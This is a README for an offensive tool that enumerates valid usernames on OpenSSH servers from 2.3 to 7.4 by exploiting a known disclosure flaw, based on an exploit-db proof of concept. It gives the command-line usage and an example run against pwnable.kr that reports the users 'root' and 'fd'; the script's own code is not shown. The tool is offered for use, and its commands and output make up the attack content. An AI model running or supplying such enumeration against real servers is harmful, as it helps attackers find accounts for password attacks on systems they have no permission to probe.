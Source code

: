 # openssh_user_bruteforce
OpenSSH 2.3 &lt; 7.4 - Username Enumeration Multithreaded Bruteforcer. Based on http://www.openwall.com/lists/oss-security/2018/08/15/5

# Usage
```
$ ./openssh_bruteforce.py -h
usage: openssh_bruteforce.py [-h] -host HOSTNAME [-p PORT] [-user USERNAME]
                             [-w WORDLIST]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Target port. (Default 22)
  -user USERNAME, --username USERNAME
                        Check a single username.
  -w WORDLIST, --wordlist WORDLIST
                        Path to a usernames wordlist.

required arguments:
  -host HOSTNAME, --hostname HOSTNAME
                        The host you want to target.
```
example 
```
$ ./openssh_bruteforce.py -host pwnable.kr -w test.txt -p 2222 -t 6
[+] Starting bruteforce with 6 threads..
[!] Testing user  root
[!] Testing user  hthgfbngc
[!] Testing user  fsdfsdgfsd
[!] Testing user  bfgbnrtbfgb
[!] Testing user  bcf
[!] Testing user  ffgbcfbcf
[+] Found user  root
[!] Testing user  fd
[!] Testing user  no
[+] Found user  fd
Found Users:  ['fd', 'root']

```

# Note
You can find explanation of the technique used inside the script.


#### Credits
This script is heavily based on the POC found on exploit-db https://www.exploit-db.com/exploits/45210/
